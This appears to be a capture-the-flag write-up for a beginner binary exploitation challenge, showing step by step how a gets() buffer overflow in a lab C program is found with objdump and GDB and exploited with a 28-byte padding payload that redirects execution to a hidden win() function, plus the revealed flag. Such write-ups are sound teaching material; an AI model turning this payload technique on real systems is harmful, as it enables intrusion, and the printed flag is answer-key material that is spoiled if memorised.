


## PWN-0: System Exploitation
**Description:**  
A binary exploitation challenge that involves triggering a buffer overflow to hijack execution flow and call a hidden `win()` function.
<details> <summary><b>Reveal Flag</b></summary>
flag{47ea70cf08}
</details></br>

**Solution Summary:**
- Discovered a vulnerable C program with no protection mechanisms.
- Identified a classic buffer overflow in the `main()` function.
- Used `objdump` to locate the address of the hidden `win()` function.
- Crafted a payload to overflow the buffer and redirect execution to `win()`.

**Exploitation Steps:**
1. Reviewed the C source file:
    ```bash
    cat /ctf/vulnerable.c
    ```
    Identified a vulnerable `gets()` call in `main()` with no bounds checking.

2. Following the challenge instructions I compiled the binary:
    ```bash
    cd /ctf
    make
    ```
3. Analyzed the binary with objdump to locate the address of the win() function:
    ```bash
    objdump -d ./vulnerable | grep win
    ```
    Output:
    ```plaintext
    080491a5 <win>:
    ```
4. Determined the buffer offset required to reach the return address:
    - Sent a full alphabet string as input to identify where the overflow occurred:
      ```bash
      echo "ABCDEFGHIJKLMNOPQRSTUVWXYZ" | ./vulnerable
      ```
   - Loaded the binary in GDB with verbose output:
     ```bash
     gdb ./vulnerable
     (gdb) set verbose on
     (gdb) run < input.txt
     ```
   - After the crash, inspected the instruction pointer (EIP) to see which part of the input overwrote it:
     ```bash
     (gdb) info registers
     ```
    - Based on the position of the overwritten value, determined that **28 bytes** were required to reach the return address.

5. Constructed the exploit payload using **28 bytes** of padding and the `win()` function address in little-endian format. Tested it locally:`
    ```bash
    printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x91\x04\x08" | ./vulnerable
    ```
    ✅ Success — execution flow was redirected to the win() function!
     

6. Reused the payload to exploit the remote binary over the network at `192.168.1.2` on port `9999`, successfully retrieving the flag.
    
